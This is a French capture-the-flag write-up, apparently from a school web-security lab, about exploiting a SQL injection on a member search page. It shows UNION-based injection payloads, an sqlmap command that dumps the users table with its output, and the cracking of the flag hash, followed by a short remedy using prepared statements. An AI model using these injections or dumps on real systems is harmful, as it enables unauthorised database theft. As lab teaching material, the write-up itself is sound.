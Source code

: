 # Explications

Sur la page member search, il y a une SQL Injection.

On peut afficher tous les users de la table en recherchant : "1 or 1=1"

On peut imaginer une requete forger comme ca derriere :

```sql
SELECT id, firstname, surname FROM users WHERE id = $_GET['id']
```

en passant une UNION on peut donc lui faire afficher ce qu'on veut.
sur la base de donnée MySQL une database contient des informations cruciales, on peut lui faire afficher les autres db / tables / columns.

On peut voir une table qui s'appelle "users" avec comme column : "user_id, first_name, last_name, town, country, planet, Commentaire, countersign"

Je vous epargne toutes les requetes essayé mais la plus interessante fut : "1 or 1=1 UNION SELECT Commentaire, countersign FROM users"

on obtient une consigne qui nous invite a :

```
Decrypt this password -> then lower all the char. Sh256 on it and it's good !
5ff9d0165b4f92b14994e5c685cdce28
```

5ff9d0165b4f92b14994e5c685cdce28 (md5->plain text) FortyTwo

fortytwo (ascii->sha256) 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5

----

# Cas d'usage

Obtenir un dump de la DB, tous pleins d'infos bien utiles :)

----

# Comment l'eviter ?

Il faut a tout pris passer par des requetes SQL dites prepared, les ORM font tres bien le boulot.
(cf: PDO::prepare)

----

# Good to Know

sqlmap un petit tool en python qui a fait ses preuves depuis, peu permettre de rechercher des SQLi, un petit exemple:

sqlmap -u "http://192.168.2.128/?page=member&id=1&Submit=Submit#" --dump -T users

```
Database: Member_Sql_Injection
Table: users
[4 entries]
+---------+-----------+--------+-----------+-----------+----------------+-------------------------------------------------------------------------------+----------------------------------+
| user_id | town      | planet | country   | last_name | first_name     | Commentaire                                                                   | countersign                      |
+---------+-----------+--------+-----------+-----------+----------------+-------------------------------------------------------------------------------+----------------------------------+
| 1       | Honolulu  | EARTH  | America   | Obama     | Barack Hussein | Amerca !                                                                      | 2b3366bcfd44f540e630d4dc2b9b06d9 |
| 2       | Berlin    | Earth  | Allemagne | Hitler    | Adolf          | Ich spreche kein Deutsch.                                                     | 60e9032c586fb422e2c16dee6286cf10 |
| 3       | Moscou    | Earth  | Russia    | Staline   | Joseph         | ????? ????????????? ?????????                                                 | e083b24a01c483437bcf4a9eea7c1b4d |
| 5       | 42        | 42     | 42        | GetThe    | Flag           | Decrypt this password -> then lower all the char. Sh256 on it and it's good ! | 5ff9d0165b4f92b14994e5c685cdce28 |
+---------+-----------+--------+-----------+-----------+----------------+-------------------------------------------------------------------------------+----------------------------------+
```

Plutot puissant non ?

